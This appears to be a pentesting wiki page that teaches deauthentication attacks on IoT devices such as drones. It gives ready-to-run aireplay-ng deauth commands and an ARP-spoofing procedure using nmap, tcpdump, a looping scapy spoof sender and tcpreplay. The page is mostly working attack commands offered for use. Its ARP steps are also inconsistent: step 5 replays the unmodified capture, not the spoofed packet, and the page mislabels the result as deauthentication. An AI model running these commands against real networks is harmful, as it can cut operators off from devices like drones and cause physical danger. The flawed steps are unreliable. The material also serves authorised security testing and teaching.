 # Deauthentication Attacks

## Theory

IoT devices are often either connected to a WiFi network or even host their own network for user to intact with it. A stable WiFi connection can be critical to some IoT devices.For example deauthentication is probably one of the most concerning things a drone pilot can experience, since when his controller is deauthenticated he is unable to control the drone appropriate.&#x20;

## Cheat Sheet

Using aireplay-ng

```bash
# Put the wireless interface in monitor mode
airmon-ng start wlan0  

# Scan for networks to identify target AP and clients
airodump-ng wlan0mon  

# (Optional) Focus scan on a specific channel to reduce noise
airodump-ng -c <channel> wlan0mon  

# Perform deauthentication attack on a specific client
aireplay-ng --deauth 10 -a <AP_BSSID> -c <CLIENT_MAC> wlan0mon  

# Deauthenticate all clients from the AP
aireplay-ng --deauth 10 -a <AP_BSSID> wlan0mon  

# Stop monitor mode on the wireless interface
airmon-ng stop wlan0mon  
```

ARP-Spoofing:

```bash
# 1. Join the Target Network
# Connect to the target network (no command, but ensure you're connected to the same network as the target device).

# 2. Identify the Target Device and Controller
nmap -sn <network_address_range>  # Scans the network to identify devices (replace with network range, e.g., 192.168.1.0/24)

# 3. Capture a Legitimate ARP Response
tcpdump -i <interface> arp -w arp_capture.pcap  # Captures ARP packets to a file (replace <interface> with your network interface)

# 4. Modify the ARP Response with a Spoofed MAC Address
# Use a tool like `scapy` in Python to craft a spoofed ARP packet:
from scapy.all import ARP, send
packet = ARP(op=2, psrc="<controller_IP>", hwsrc="<attacker_MAC>", pdst="<target_IP>")
send(packet, loop=1, inter=0.5)

# 5. Replay the Spoofed ARP Packet to the Target Device
tcpreplay --intf1=<interface> -l 0 arp_capture.pcap  # Sends the modified ARP packet to the network continuously (replace <interface>)

# 6. Monitor the Connection Status
# Observe the target device or controller for any indication of disconnection (e.g., disconnected light or notification).

# 7. Stop the Attack
# Stop sending packets by terminating the `tcpreplay` or ARP spoofing script (press Ctrl+C to end the process).
```

## Usage

{% tabs %}
{% tab title="aireplay-ng" %}
#### 1. **Put the Wireless Interface in Monitor Mode**

First, place your wireless network interface card in monitor mode. Replace `wlan0` (should be shown in `ifconfig`) with your interface name.

```bash
airmon-ng start wlan0
```

This will enable monitor mode on `wlan0` and may rename it to something like `wlan0mon`.

#### 2. **Identify Target Access Point and Clients**

Next, use `airodump-ng` to find the BSSID (MAC address) of the access point (AP) and the client(s) connected to it.

```bash
airodump-ng wlan0mon
```

Take note of the BSSID of the target AP and the channel it is operating on.

#### 3. **Deauthenticate Target Client**

Use the `aireplay-ng` command to send deauthentication packets. Replace `wlan0mon` with your monitor interface, `AP_BSSID` with the BSSID of the access point, and `CLIENT_MAC` with the MAC address of the target client.

*   **Deauthenticate a specific client from an AP:**

    ```bash
    aireplay-ng --deauth 10 -a AP_BSSID -c CLIENT_MAC wlan0mon
    ```

    Here, `10` is the number of deauth packets to send (you can increase or decrease this as needed).
*   **Deauthenticate all clients from an AP:**

    ```bash
    aireplay-ng --deauth 10 -a AP_BSSID wlan0mon
    ```
{% endtab %}

{% tab title="ARP-Spoofing" %}
#### 1. Join the Target Network

Connect to the target network you want to perform the attack on, as ARP spoofing requires the attacker to be within the same network.

#### 2. Identify Target Device and Controller

Use a network scanning tool like `nmap` to identify the IP and MAC addresses of the device (e.g., a drone) and the controller.

```bash
nmap -sn <network_address_range>
```

Replace `<network_address_range>` with the IP range (e.g., `192.168.1.0/24`). Note the IP and MAC addresses of both the target device and the controller.

#### 3. Capture a Legitimate ARP Response

Use `tcpdump` to capture ARP responses in the network. Look for packets showing the controller’s IP and MAC association.

```bash
tcpdump -i <interface> arp -w arp_capture.pcap
```

Replace `<interface>` with your network interface. This will save the ARP traffic to a file called `arp_capture.pcap`.

#### 4. Modify the ARP Response with a Spoofed MAC Address

Using `scapy` in Python, craft a spoofed ARP packet to mislead the target device into associating the controller's IP with the attacker's MAC.

```python
from scapy.all import ARP, send

packet = ARP(op=2, psrc="<controller_IP>", hwsrc="<attacker_MAC>", pdst="<target_IP>")
send(packet, loop=1, inter=0.5)
```

Replace `<controller_IP>` with the controller’s IP, `<attacker_MAC>` with your MAC address, and `<target_IP>` with the target device’s IP.

#### 5. Replay the Spoofed ARP Packet to the Target Device

Send the modified ARP packet to the target device continuously to maintain the spoofed association.

```bash
tcpreplay --intf1=<interface> -l 0 arp_capture.pcap
```

Replace `<interface>` with your network interface. This command replays the spoofed ARP response in a loop.

#### 6. Monitor the Connection Status

Observe the target device or the controller to confirm the deauthentication. The controller should eventually show a "disconnected" status when it no longer receives responses.

#### 7. Stop the Attack

To end the attack, stop sending spoofed ARP packets by terminating the replay or spoofing process (press `Ctrl+C` if running in a terminal). The target device should revert to the correct MAC association upon receiving a legitimate ARP response from the controller.
{% endtab %}
{% endtabs %}

## Resources

* [Pentesting Wifi - Deauthentication Packets](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/pentesting-wifi/index.html)
* [Wi-Fi deauthentication attack](https://en.wikipedia.org/wiki/Wi-Fi\_deauthentication\_attack)
